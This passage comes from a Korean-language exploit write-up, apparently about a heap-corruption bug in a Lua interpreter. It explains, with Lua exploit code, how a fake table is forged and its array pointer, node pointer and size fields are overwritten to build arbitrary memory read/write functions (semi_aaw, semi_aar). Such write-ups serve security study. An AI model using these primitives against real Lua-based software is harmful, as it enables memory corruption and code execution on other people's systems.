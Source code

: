 ```lua
      end
   end
   if fake_array == nil then
      error("Bad luck...")
   end
```

### 5. Arbitrary Address Read/Write

`fake_array`를 통해 넓은 힙 영역을 `TValue` 배열처럼 사용하여 접근할 수 있게 되었습니다. `fake_array[i]`와 같은 방식으로 배열에 접근하여 데이터를 읽거나 쓸 경우, Lua의 인덱스는 1부터 시작하기 때문에 `array[i-1]`의 `Value`와 `tt`에 접근하게 됩니다.

예를 들어, `fake_array[0x5] = 0`을 실행하면 `array[0x4].Value`에 0이 쓰이고 `array[0x4].tt`에는 3(`LUA_TNUMBER`)가 쓰이게 됩니다. 데이터를 읽을 때는 `tt`를 통해 타입을 식별하고 타입에 따라 적절한 데이터를 읽어 반환하게 됩니다. `TValue`가 0x10 크기의 구조체이기 때문에 데이터를 쓸 수 있는 주소는 0x0으로 끝나는 주소로 제한됩니다.

좀 더 자유로운 임의 주소 읽기/쓰기를 수행하기 위해 `fake_array`를 통해 추가적인 Fake Table을 생성합니다.

익스플로잇 코드에서는 아래처럼 새로운 Fake Table을 구성합니다.

```lua
   -- overwrite array pointer
   local ofs = math.floor((owow_array1_addr + 0x20 - fake_array_base) / 0x10)
   fake_array[1 + ofs] = struct.unpack('d', p64(fake_array_base - 8))

   -- overwrite node pointer to NULL
   local ofs = math.floor((owow_array1_addr + 0x28 - (fake_array_base-8)) / 0x10)
   owow_array1[1 + ofs] = 0

   -- overwrite size
   local ofs = math.floor((owow_array1_addr + 0x40 - fake_array_base) / 0x10)
   fake_array[1 + ofs] = bytes_to_double("\255\255\255\127\000\000\000\000")
```

`owow_array1`은 사전에 생성된 `fake_array_base` 보다 높은 주소에 할당된 `Table`이고 `owow_array1_addr`은 이 `Table`의 주소를 가리킵니다.

먼저 `local ofs = math.floor((owow_array1_addr + 0x20 - fake_array_base) / 0x10)`가 실행되어 `fake_array`를 통해 `owow_array1`의 `array` 필드에 접근하기 위한 인덱스를 계산합니다. `ofs`는 읽거나 쓸 주소값에서 Fake Table의 `array`가 가리키는 주소값을 뺀 다음 이를 0x10으로 나누어 계산됩니다.

이후 계산된 `ofs`를 사용하여 `array` 필드를 `fake_array_base-8`로 조작하면 `owow_array1`을 통해 0x8로 끝나는 주소에도 데이터를 쓸 수 있게 됩니다. 이 과정에서 `array` 필드가 `TValue.Value`로 해석되어 `fake_array_base - 8`이 쓰이고, 인접한 `node` 필드는 `tt`로 해석되어 3(`LUA_TNUMBER`) 값이 쓰입니다.

이로 인한 크래시를 방지하기 위해 `owow_array1`을 통해 `node` 필드를 `NULL`로 바꿉니다. `owow_array1`의 `array` 필드가 가리키는 주소가 `fake_array_base - 8`이기 때문에 0x8로 끝나는 힙 주소에 데이터를 쓰는 것이 가능합니다. 이후 `owow_array1`도 `fake_array`와 마찬가지로 `sizearray` 필드를 0x7fffffff로 조작합니다.

`fake_array`와 `owow_array1`을 이용한 임의 주소 읽기/쓰기를 구현한 함수는 아래와 같습니다.

```lua
   local function semi_aaw(addr, value)
      -- Warning: This will write 0x03 (qword) tag at addr + 8.
      local ofs = math.floor((owow_array1_addr + 0x20 - fake_array_base) / 0x10)
      fake_array[1 + ofs] = struct.unpack('d', p64(addr))
      owow_array1[1] = value
   end

   local function semi_aar(addr)
      -- Warning: This requires 0x03 (qword) tag at addr + 8.
      local ofs = math.floor((owow_array1_addr + 0x20 - fake_array_base) / 0x10)
      fake_array[1 + ofs] = struct.unpack('d', p64(addr))
      return owow_array1[1]
   end
```
